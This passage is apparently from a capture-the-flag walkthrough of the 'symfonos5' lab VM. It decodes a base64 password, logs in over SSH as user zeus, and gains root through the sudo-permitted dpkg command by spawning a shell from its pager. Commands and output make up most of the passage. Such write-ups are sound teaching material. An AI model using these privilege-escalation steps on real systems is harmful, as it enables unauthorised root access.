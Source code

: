 ```console
gecos: Zeus User
...
```

As we see in the above results the, **zeus** username and password was revelated, the password is base64 encoded, so let's decode it.

```console
root@kali:~$ echo "Y2V0a0tmNHdDdUhDOUZFVA==" | base64 -d; echo
cetkKf4wCuHC9FET
```

## Exploitation
### Access via SSH
With the **zeus** user and the decoded password we log in to the SSH service, then we enumerate for the sudo permissions and we see that the **dpkg** command can be executed as root without password.

```console
root@kali:~$ ssh zeus@192.168.179.140
zeus@192.168.179.140's password:
zeus@symfonos5:~$ sudo -l
Matching Defaults entries for zeus on symfonos5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zeus may run the following commands on symfonos5:
    (root) NOPASSWD: /usr/bin/dpkg
```

## Privilege Escalation
### dpkg Sudo Permissions

dpkg is a tool to install, build, remove and manage, packages. With this utility an attacker can install malicious software or elevate privileges to root.

With the following instruction we list packages in a less format, then we invoke a bash shell and finally we get root.

```console
zeus@symfonos5:~$ sudo dpkg -l
Desired=Unknown/Install/Remove/Purge/Hold  
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
...
!/bin/bash
root@symfonos5:/home/zeus# id
uid=0(root) gid=0(root) groups=0(root)
```
